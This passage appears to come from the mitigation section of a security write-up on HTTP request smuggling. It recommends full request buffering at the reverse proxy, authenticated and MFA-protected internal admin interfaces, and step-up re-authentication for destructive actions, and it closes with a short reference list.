Ensure the reverse proxy buffers and verifies the entire incoming request body before dispatching any bytes to the back-end server, preventing mid-stream stalling attacks from ever reaching the internal tier.

### 4.3 Application-Level Defenses

#### 1. Zero-Trust Access Control (Defense-in-Depth)
Never rely solely on the `Host: localhost` header or internal IP origin checks to authorize administrative functionality. Internal administrative interfaces must require:
* Explicit administrative authentication (RBAC / ABAC).
* Multi-factor authentication (MFA).
* Mutual TLS (mTLS) for machine-to-machine internal APIs.

#### 2. Re-Authentication for Destructive Operations
Sensitive actions such as user deletion, password modification, or role escalation should require password re-entry or temporary step-up confirmation, preventing automated execution even if a request is smuggled.

---

## References & Further Reading
* PortSwigger Research: *Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling (James Kettle)*
* RFC 9112: *HTTP/1.1 — Section 9.3: Request Body Handling*
* Apache HTTP Server Documentation: *Module mod_reqtimeout & mod_dir*
* CWE-444: *Inconsistent Interpretation of HTTP Requests ('HTTP Request Smuggling')*
